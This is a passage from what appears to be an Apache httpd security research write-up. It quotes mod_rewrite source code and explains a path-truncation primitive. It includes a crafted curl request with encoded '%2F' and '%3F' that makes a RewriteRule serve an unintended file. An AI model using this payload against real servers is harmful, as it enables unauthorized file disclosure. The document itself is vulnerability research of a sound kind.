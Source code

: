 Path: modules/mappers/mod_rewrite.c#L4141

/*
 * Apply a single RewriteRule
 */
static int apply_rewrite_rule(rewriterule_entry *p, rewrite_ctx *ctx)
{
    ap_regmatch_t regmatch[AP_MAX_REG_MATCH];
    apr_array_header_t *rewriteconds;
    rewritecond_entry *conds;
    
    // [...]
    
    for (i = 0; i < rewriteconds->nelts; ++i) {
        rewritecond_entry *c = &conds[i];
        rc = apply_rewrite_cond(c, ctx);
        
        // [...] do the remaining stuff
        
    }
    
    /* Now adjust API's knowledge about r->filename and r->args */
    r->filename = newuri;

    if (ctx->perdir && (p->flags & RULEFLAG_DISCARDPATHINFO)) {
        r->path_info = NULL;
    }

    splitout_queryargs(r, p->flags);         // <------- [!!!] Truncate the `r->filename`
    
    // [...]
}
✔️ 1-1-1. Path Truncation
The first primitive leverages this truncation on the filesystem path. Imagine the following RewriteRule:

RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"
The server would open the corresponding profile based on the username followed by the path /user/, for example:

$ curl http://server/user/orange
 # the output of file `/var/user/orange/profile.yml`
Since mod_rewrite forcibly treats all rewritten result as a URL, even when the target is a filesystem path, it can be truncated at a question mark, cutting off the tailing /profile.yml, like:

$ curl http://server/user/orange%2Fsecret.yml%3F
 # the output of file `/var/user/orange/secret.yml`
This is our first primitive — Path Truncation. Let’s pause our exploration of this primitive here for a moment. Although it might seem like a minor flaw for now, remember it— it will reappear in later attacks, gradually tearing open this seemingly little breach! 😜

✔️ 1-1-2. Mislead RewriteFlag Assignment
The second exploitation of the truncation primitive is to mislead the assignment of RewriteFlags. Imagine a sysadmin managing websites and their corresponding handlers through the following RewriteRule:
